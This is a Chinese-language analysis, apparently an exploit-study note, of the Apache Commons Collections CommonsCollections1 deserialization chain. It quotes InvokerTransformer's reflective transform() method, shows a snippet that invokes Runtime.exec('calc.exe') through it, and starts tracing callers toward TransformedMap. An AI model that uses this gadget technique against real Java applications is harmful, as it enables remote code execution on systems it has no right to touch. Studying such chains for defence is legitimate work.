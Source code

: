 # CommonsCollections1 analyze

# 0x01 TransformMap版本

```java
public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
            }
        }
    }
```

首先我们直接看到`org.apache.commons.collections.functors.InvokerTransformer`​中的`transform()`​方法

这里可以实现rce

我们来看到`InvokerTransformer`​类的构造方法

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

有参构造方法,可以直接把后面rce的参数都写进去

```java
    Runtime runtime = Runtime.getRuntime();
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
    invokerTransformer.transform(runtime);
```

我们成功找到了最终实现RCE的位置,接下来我们需要找的就是如何调用到这个transform来实现RCE

利用`find usage`​/`ctrl shift alt F7`​来查找都在那些地方调用了`transform`​这个方法,我们可以找到一处`TransformedMap`​的`checkSetvalue`​方法
